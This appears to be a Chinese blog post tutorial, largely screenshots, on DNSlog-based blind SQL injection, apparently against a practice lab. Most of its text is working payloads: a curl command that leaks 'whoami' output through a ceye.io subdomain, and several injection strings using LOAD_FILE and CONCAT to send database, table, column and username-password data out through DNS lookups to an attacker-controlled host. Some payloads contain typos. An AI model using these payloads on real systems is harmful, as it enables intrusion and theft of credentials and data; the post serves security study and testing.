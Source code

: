 ```yaml
---
layout: post
title: "1.3.3-SQL注入-SQL盲注-Dnslog盲注"
date: 2018-06-23
category: web安全
tags: sql注入 sql盲注
---
```


## DnsLog盲注

### DnsLog盲注原理
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/01.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/02.jpeg)
Dnslog平台：http://ceye.io/  
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/03.jpeg)



	http://ceye.io/profile
	curl mzq83x.ceye.io

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/05.png)


	curl `whoami`.mzq83x.ceye.io


![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/06.jpeg)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/04.jpeg)




![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/07.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/08.jpeg)

### DnsLog盲注方法
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/09.jpeg)

	核心语法： SELECT LOAD_FILE(CONCAT('\\\\',(select database()),'.mysql.r5ourp.ceye.io\\abc'));
	sql语句不能含有特殊符号

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/10.jpeg)

	查表
	?id=1' and LOAD_FILE(CONCAT('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.mysql.r5oup.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/11.jpeg)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/12.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select colum_name from information_schema.columns where table_name='users' limit 5,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/13.jpeg)
	
	?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat(username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/14.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat_ws('A',username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/15.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/16.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select hex('~',username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/17.jpeg)




![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/18.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/19.jpeg)

https://github.com/ADOOO/DnslogSqlinj